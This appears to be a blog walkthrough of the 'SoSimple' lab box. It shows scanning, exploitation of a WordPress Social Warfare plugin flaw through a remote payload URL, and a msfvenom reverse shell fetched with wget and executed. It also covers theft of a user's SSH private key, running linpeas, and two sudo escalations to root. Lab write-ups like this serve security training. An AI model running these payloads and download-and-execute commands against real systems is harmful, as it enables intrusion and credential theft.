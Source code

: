 ```yaml
---
layout: post
title: "SoSimple Walkthrough"
subtitle: "a good pg play box!"
date: 2023-02-08
author: "Peter"
header-img: "img/post-bg-hack.png"
tags: [walkthrough]
---
```


This box is named so simple, however it's a medium boxes, it's hard to expect it will be that simple to catch the flags.

The target of this box is to catch the root flag and the user flag, so let's begin.

From the information provided by the box, we have the ip as below:

attack IP: `192.168.76.78`  
local IP: `192.168.49.76`

So let's start to scan the ports, I'm using commands that basically run the scan and the service scan, and save the result to log file.
```bash
nmap -vv -Pn -sV -sS -oN 192.168.76.78.log 192.168.76.78
```

As the result, Nmap have found two ports on, which is http and ssh. That indicates it's a simple web app with a ssh to get into the server. No other fancy setups.
```nmap
22/tcp open ssh syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open http syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
```

After knowing the result, we can start to find the way to enter the server, at first we will be head into a main page with only a simple picture on it. And there's no useful information inside the terminal. 
![](/img/in-post/sosimple/Pasted image 20230207195730.png)

From wappalyzer and nmap that we could know it's a  2.4.41 apache server, so here comes two attempts:
1. Find if there's Apache 2.4.41 exploit
2. Use directory search to the website

As the first approach, there's no 2.4.41 exploit. *Also the boxes could not be that simple*

So let's dive into the second app approach, here we choose to run gobuster to the target website, using the medium wordlist
```bash
gobuster dir -u 192.168.76.78 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o
```

As the gobuster result, we found there's `/wordpress` available on the website, no other directory available.  *Sorry forgot to screenshot*

So head into the wordpress, before going deep into the scanner, it would be good to search for the useful information on the site, unfortunately there's no any other than knowing the wordpress version.

So we could run the WPScan, and remember to sign up to the WPScan website to get the token that the WPScan will tell you which vulnerability appears on the website.  
```
wpscan --url 192.168.76.78/wordpress --api-token YOUR_TOKEN
```

As the WPScan result, there's one called [social warfare](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618) seemed to be useful, so we could follow the exploit instruction to start exploit the web page.  

First, we could test if the payload is useful or not by the step as follow:
1. Create payload including `<pre>system('cat /etc/passwd')</pre>`
2. Start a simple http server `python3 -m http.server 80`
3. Type the payload url `http://192.168.76.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.49.76/swpayload.txt`

It works like a charm, but it's inconvenient to use the web interface like that, it'd be better to use a reverse shell instead. So we need to generate a payload and activate the reverse shell.
![](/img/in-post/sosimple/Pasted image 20230206225851.png)

So we need to:
1. Generate a payload
2. Download and execute the payload at the target machine

First, to generate the payload we could use [reverse shell generator](https://www.revshells.com/) that have
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.76 LPORT=5566 -f elf -o reverse.elf
```

Before execute the payload, don't forget to open a netcat listener.
```bash
nc -lvnp 5566
```

Then we could modify the command to download and execute the payload
```xml
<pre>system('wget 192.168.49.76/reverse.elf && chmod +x ./reverse.elf && ./reverse.elf')</pre>
```

After execute the url again, we successfully accessed the reverse shell. *The ip is used for renewing the pictures, please don't bother with it*
![](/img/in-post/sosimple/Pasted image 20230207205407.png)

So after we accessed the server, it's time for us to look for some credentials. There usually are some information that will be inside of:
```
/home
/tmp
/opt
```

We found we could access `/home/max` and the file inside it by using
```bash
ls -lah /home/max/
```
![](/img/in-post/sosimple/Pasted image 20230207205915.png)

To simplify the explanation, the first flag is at `local.txt`. And we found `.ssh` might include the information that could be very helpful. And boom! `id_rsa` is inside the `.ssh` folder, so we could use it to ssh as the identity of max.

First, copy the private key to your local directory. Remember the key format, that it should look as follow with a empty line at below and two separate line don't stuck with the key itself.  **I lost my points on this step :<**

```
-----BEGIN OPENSSH PRIVATE KEY-----
HASH
-----END OPENSSH PRIVATE KEY-----

```

Then we could ssh into the target machine with 
```bash
ssh -i id_rsa max@192.168.76.78
```

After accessing with max, it could be good to run scanning scripts like linpeas.
```bash
mkdir /tmp/hi && cd /tmp/hi && wget 192.168.49.76/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh | tee linpeas.log
```

We found the useful information as below with the yellow highlighted. Which is checked by `sudo -l`
![](/img/in-post/sosimple/Pasted image 20230207023908.png)

It means we can run the `/usr/sbin/service` with user `steven`, and we know from [gtfobins](https://gtfobins.github.io/gtfobins/service/) that we can use the service to access a bash with follow command.
``` bash
sudo -u steven /usr/sbin ../../bin/sh
```

After enter the bash with `steven`, run `sudo -l` again, we'll found out that we can run `/opt/tools/server-health.sh` with root permission with no password needed.
![](/img/in-post/sosimple/Pasted image 20230207033041.png)

However, there's no file found as `/opt/tools/server-health.sh`, so we make one by our self then execute it.
``` bash
mkdir /opt/tools/
touch /opt/tools/server-health.sh
echo '/bin/bash' >> /opt/tools/server-health.sh
# Don't forget to add permission
chmod +x /opt/tools/server-health.sh
```

Then we run as root
``` bash
sudo -u root /opt/tools/server-health.sh
```

Viola! We get the root permission and we could catch the root flag!
